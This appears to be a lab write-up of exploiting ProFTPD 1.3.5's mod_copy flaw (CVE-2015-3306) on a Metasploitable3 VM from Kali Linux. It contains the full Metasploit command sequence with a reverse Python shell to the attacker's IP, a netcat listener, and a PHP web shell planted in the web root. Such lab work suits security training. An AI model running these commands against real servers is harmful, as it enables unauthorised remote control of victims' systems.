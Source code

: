 ## Step 1: Identifying Metasploitable3's IP Address

To get started, we needed the IP address of the Metasploitable3 machine. We ran the `ifconfig` command directly inside the VM and picked up the address assigned by the NAT network.

- **IP Found:** `192.168.8.160`

![IP Discovery](Screenshots/A-FindIP-Metasplot.png)

---

### Step 2: Checking Network Connectivity

Before trying anything fancy, we made sure the attacker (Kali Linux) could talk to the victim (Metasploitable3). A simple `ping` to the target IP confirmed everything was good — no packet loss.

- **Target IP:** `192.168.8.160`

![Ping Test](Screenshots/B-Connect.png)

---

### Step 3: Port and Service Scanning

Next up, we needed to figure out what was open and running. We went with a full version scan using `nmap` to get a complete picture of the services available for exploitation.

![Nmap Scan](Screenshots/C-FindPorts.png)

---

## Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

Turns out, **ProFTPD 1.3.5** was running — a known vulnerable version. Using Metasploit, we loaded up the `unix/ftp/proftpd_modcopy_exec` module and prepped it for a reverse shell back to Kali.

![msfconsole](Screenshots/D-msfconsole.png)

### Attack Summary

- **Victim IP:** `192.168.8.160`
- **Attacker IP:** `192.168.8.152`
- **Vulnerable Service:** ProFTPD 1.3.5
- **Module Used:** `exploit/unix/ftp/proftpd_modcopy_exec`
- **Payload:** `cmd/unix/reverse_python`
- **Target Directory:** `/var/www/html`

### Commands Overview

```bash
msfconsole
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 192.168.8.160
set LHOST 192.168.8.152
show payloads
set payload cmd/unix/reverse_python
set SITEPATH /var/www/html
set AllowNoCleanup true
set DisablePayloadHandler true
exploit
```

---

## Step 5: Reverse Shell Success!

After launching the attack, we triggered the payload by visiting the uploaded file on the victim’s web server. Success! The shell came back, giving us control.

![Victim Shell](Screenshots/E-VictimShell.png)

### Setting Up the Listener

On Kali, we had a Netcat listener ready and waiting on port 4444:

```bash
nc -lvnp 4444
```

---

## Task 1.2: Automating the Exploit with a Custom Script

Instead of manually exploiting ProFTPD, we used a Python script to automate the whole thing.

### Running the Script

From the `/Downloads` folder, we ran:

```bash
python3 Script.py
```

![Running Script](Screenshots/F-RunningScript.png)

### What the Script Does

- Creates a PHP reverse shell (`exploit.php`)
- Uploads it to `/var/www/html/` using ProFTPD’s mod_copy commands
- Provides the URL to trigger the payload manually

### Proof of File Upload

After using the script, we confirmed the file was uploaded by listing the web server directory:

```bash
set CMD ls -l /var/www/html
run
```

![Uploaded Files](Screenshots/G-uploadingFile.png)

---

### Final Confirmation

- Reverse shell connection: Confirmed.
- Script functionality: Verified.
- Payload visibility: `/var/www/html/`
- Task 1.2: Completed.

![PHP Files Uploaded](Screenshots/H-phpFilesUploaded.png)

---

## How the Script Works (Step-by-Step)

### 1. Payload Generation
- Generates `exploit.php`, capable of either reverse shells or executing commands via:

```
http://<victim-ip>/exploit.php?cmd=<command>
```

### 2. Exploiting FTP mod_copy
- Uses the `SITE CPFR` and `SITE CPTO` FTP commands to move the payload into the web root.

### 3. Attacker Instructions
- The script tells you where your payload lives and how to trigger it.

---

## Why ProFTPD mod_copy?

- **CVE-2015-3306** makes it a juicy target.
- Anonymous access? No credentials needed.
- Works flawlessly against Metasploitable3.
